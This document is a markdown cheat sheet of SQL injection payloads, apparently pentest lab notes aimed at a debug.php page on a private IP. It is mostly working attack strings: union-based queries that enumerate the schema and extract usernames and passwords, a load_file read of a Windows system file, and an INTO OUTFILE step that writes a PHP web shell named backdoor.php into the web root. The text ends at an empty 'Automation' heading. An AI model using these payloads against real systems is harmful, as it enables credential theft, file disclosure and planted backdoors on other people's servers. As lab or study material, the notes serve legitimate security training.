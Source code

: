 # SQL (Structured Query Language)  

Find a potential vuln by adding a char such as single quote and checking for errors.  

Basic statement.  

`SELECT * FROM users; #`  

Union statement.  

`UNION SELECT * FROM users; #`  

Limit number of rows returned.  

`SELECT * FROM users LIMIT 1; #`  

Find number of columns, this command orders by collumn, start at 1 and increase, if there is a error then previous number is number of columns.  

`SELECT * FROM users ORDER BY 1; #`  

To find which columns are being printed, using numerical value if names are not known.  

`http://10.11.0.22/debug.php?id=1 union all select 1, 2, 3`  

## Extracting data  

This example uses mariaDB.  

Output version.  

`http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version`  

Output current database user.  

`http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()`  

Getting information from the schema.  

`http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables`  

Getting column names from the user table using schema.  

`http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'`  

Extract usernames and passwords.  

`http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users`  

## Code execution  

Read a file.  

`http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')`  

Write a simple webshell into the web root directory.  

`http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`  

## Automation  


